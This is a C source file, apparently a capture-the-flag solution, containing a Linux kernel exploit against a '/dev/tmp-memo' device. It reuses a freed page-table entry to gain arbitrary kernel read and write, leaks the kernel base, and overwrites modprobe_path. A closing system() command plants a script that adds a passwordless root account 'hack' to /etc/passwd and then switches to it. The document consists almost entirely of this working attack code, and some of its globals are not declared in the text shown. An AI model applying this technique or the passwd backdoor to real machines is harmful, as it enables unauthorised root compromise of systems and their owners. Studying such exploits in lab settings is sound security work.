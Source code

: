 ```c
int main(){
        int shift = 12+9;
        setbuf(stdout, NULL);
        if((fd = open("/dev/tmp-memo", O_RDWR)) < 0) { perror("open"); }
        //puts("mmap");
        if((mem = (uint64_t *)mmap(NULL, 0x1000, PROT_READ|PROT_WRITE, MAP_SHARED, fd, 1<<shift)) == MAP_FAILED) { perror("mmap"); }
        mem[0] = 0xbeefbeef;
        //puts("unmap");
        munmap(mem, 0x1000); // free mmaped page index 1<<shift
        //exploit_pause();

        //puts("seekfd");
        lseek(fd, 0, SEEK_SET);
        //puts("writefd");

        // page fault at index 0 --> edge table of index 1<<shift will points to mid table of index 0 reused.
        write(fd, (uint64_t[]){ 0xdeadbeef }, sizeof(uint64_t));

        // input addr to index 1<<shift, and access index 0 to gain aarw
        int aar(void *buf, uintptr_t addr, size_t len) {
                uint64_t old;
                int ret;
                pread(fd, &old, sizeof(uint64_t), 1<<shift);
                pwrite(fd, &addr, sizeof(uint64_t), 1<<shift);
                ret = pread(fd, buf, len, 0);
                pwrite(fd, &old, sizeof(uint64_t), 1<<shift);
                return ret;
        }
        int aaw(void *buf, uintptr_t addr, size_t len) {
                uint64_t old;
                int ret;
                pread(fd, &old, sizeof(uint64_t), 1<<shift);
                pwrite(fd, &addr, sizeof(uint64_t), 1<<shift);
                ret = pwrite(fd, buf, len, 0);
                pwrite(fd, &old, sizeof(uint64_t), 1<<shift);
                return ret;
        }

        memset(buffer, 0, 0x800);
        aar(buffer, ADDR_IDT+0x14, 0x100);

        uint64_t kbase = buffer[0] - 0x608e03;
        uint64_t modprobe_path = kbase + 0xa38da0;
        printf("[+] kbase: 0x%lx\n", kbase);
        printf("[+] modprobe_path: 0x%lx\n", modprobe_path);
        buffer[0] = 0x612f706d742f;//tmp/a
        aaw(buffer, modprobe_path, 7);
        puts("done.");
        //exploit_pause();
        system("cd /tmp;echo -ne '#!/bin/sh\necho hack::0:0::/root:/bin/sh >> /etc/passwd\n' > /tmp/a; echo -ne '\\xff\\xff\\xff\\xff' > /tmp/b; chmod +x /tmp/b; chmod +x /tmp/a; /tmp/b; exec su - hack");

}
```
